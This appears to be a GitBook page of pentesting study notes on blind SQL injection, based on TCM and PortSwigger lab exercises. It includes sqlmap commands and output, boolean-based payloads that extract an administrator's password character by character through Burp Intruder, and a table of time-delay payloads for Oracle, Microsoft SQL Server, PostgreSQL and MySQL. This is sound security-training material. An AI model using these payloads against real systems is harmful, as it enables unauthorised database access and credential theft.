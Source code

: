 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Blind

{% hint style="success" %}
**Blind SQLi** is a type of SQLi where an attacker can execute SQL commands on a database **without seeing the direct results**. Instead, the attacker infers the results indirectly, often by observing changes in the web application's behavior or responses.
{% endhint %}

## Boolean-based

{% hint style="success" %}
**Blind boolean-based SQLi** is a technique where an attacker sends SQL queries that **return `true` or `false`**. The attacker observes the application's response to determine if the query was true or false, allowing them to infer information about the database without seeing the data directly.
{% endhint %}

### Headers

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time the application generates one `POST` and one `GET` request. The former includes two parameters (`username` and `password`), but they don't appear to be vulnerable to SQLi. The latter does not contain any parameter, but we can search for other injection points. More specifically, the `Cookie` header includes the `session` parameter and its value is processed by the back-end, thus, it can potentially be an SQLi candidate (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_sqli_blindBoolean_1.png" alt=""><figcaption><p>Figure 1: Inspecting potential SQLi positions.</p></figcaption></figure>

Passing the request to [`sqlmap`](../../../../tools/web/sqlmap.md), we find out that the `session` cookie is injectable.

{% code overflow="wrap" %}
```bash
$ sqlmap -r get_request.txt --batch --dbms=MySQL --level 5 --technique=B --dbms=MySQL
<SNIP>

sqlmap identified the following injection point(s) with a total of 33 HTTP(s) requests:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9499=9499-- UfuX
---
[12:37:03] [INFO] testing MySQL
[12:37:03] [INFO] confirming MySQL
[12:37:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 8.0.0
```
{% endcode %}

We can then continue the testing process as we did in the In Band section.

### Conditional

> _The example below is based on PostSwigger's_ [_Blind SQL injection with conditional responses_](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) _lab._

{% code overflow="wrap" %}
```sql
SELECT database(); -- test
SELECT substring(database(),1,1); -- t (position,length)
SELECT substring(database(),1,3); -- tes (position,length)
SELECT * FROM products WHERE name = 'Laptop' AND substring((SELECT password FROM users WHERE username='Jessamy'),1,1)>'m';
```
{% endcode %}

Burp's Active Scan identifies a potential SQLi flaw (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_1.png" alt=""><figcaption><p>Figure 4: Identifying &#x26; validating an SQLi vulnerability.</p></figcaption></figure>

We can send the two responses to Comparer and check what is the differs between them (Figure 5).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_2.png" alt=""><figcaption><p>Figure 5: Using Burp's Comparer to see what differs between the two responses.</p></figcaption></figure>

Now that we know that if our injected statement is `TRUE` we will get a `Welcome back!` message, we can use the `SUBSTRING` function and start enumerating the `administrator`'s password. We can do that efficiently by performing a Cluster bomb attack with Intruder (Figure 6).

{% code overflow="wrap" %}
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_3.png" alt=""><figcaption><p>Figure 6: Performing a Cluster bomb attack with Burp's Intruder.</p></figcaption></figure>

All we need to do now is to filter out the irrevelant responses and sort them by `Payload 1` (Figure 7).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_4.png" alt=""><figcaption><p>Figure 7: Enumerting the <code>administrator</code>'s password.</p></figcaption></figure>

{% hint style="info" %}
For performing the above task with a custom Python-based script, check the [Copy As Python-Requests](https://portswigger.net/bappstore/b324647b6efa4b6a8f346389730df160) Burp's extension.
{% endhint %}

## Time-based

{% hint style="success" %}
**Blind time-based SQLi** is a technique where an attacker sends SQL queries that **cause a delay in the database response if the query is `true`**. By measuring the time it takes for the application to respond, the attacker can infer information about the database.
{% endhint %}

> _The example below is based on PostSwigger's_ [_Blind SQL injection with time delays_](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays) _lab._

We can start by testing the time-based payloads found on [PortSwigger's SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). using string concatenation (Figure 8).

<table><thead><tr><th width="184">Database</th><th>Payload</th></tr></thead><tbody><tr><td>Oracle</td><td><code>dbms_pipe.receive_message(('a'),10)</code></td></tr><tr><td>Microsoft</td><td><code>WAITFOR DELAY '0:0:10'</code></td></tr><tr><td>PostgreSQL</td><td><code>SELECT pg_sleep(10)</code></td></tr><tr><td>MySQL</td><td><code>SELECT SLEEP(10)</code></td></tr></tbody></table>

```sql
'+||pg_sleep(10)-- -;
```

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_5.png" alt=""><figcaption><p>Figure 8: Successfully injecting a time-based payload.</p></figcaption></figure>

